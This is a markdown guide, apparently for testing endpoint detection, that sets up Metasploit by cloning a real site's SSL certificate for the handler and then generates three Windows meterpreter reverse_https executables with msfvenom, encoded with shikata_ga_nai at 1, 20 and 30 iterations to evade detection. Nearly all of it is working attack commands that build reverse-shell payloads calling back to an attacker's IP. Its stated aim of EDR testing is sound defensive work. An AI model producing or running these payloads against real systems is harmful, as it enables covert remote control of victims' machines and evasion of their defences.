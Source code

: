 # Inital Setup for MSF Testing

Change the default metasploit SSL cert:

```
sudo msfconsole

use auxiliary/gather/impersonate_ssl 
set RHOST example.com

run
```

Example output:
![output](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/edr1.png "Command Output")

Take the .pem file and use for setting the SSL cert in the msf.rc file.

Change:
```
set HANDLERSSLCERT /root/attack.crt
```

To your new cert you collected:
```
set HANDLERSSLCERT /root/.msf4/loot/20210526091350_default_93.184.216.34_93.184.216.34_pe_809138.pem
```

## Payload Generation

Create 3 msfvenom payloads (**make sure to change the lhost IP to your Kali system IP address**)

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 1 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test.exe
```

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 20 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test2.exe
```

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 30 lport=8443 lhost=1.2.3.4 -b "\x00\xff" -f exe -o test3.exe
```

The command should complete and output 3 testing executables. For the high interation payloads you may recieve an error as the paylod errors during the interation process, just rerun the command until you get a successful run.

![output payload 1](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr2.png "Payload 1")

Example of failed run for payload 3:

![output payload 3 error](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr3.png "Payload 3 Error")

Example of successful run for payload 3:

![output payload 3 success](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr4.png "Payload 3 Success")

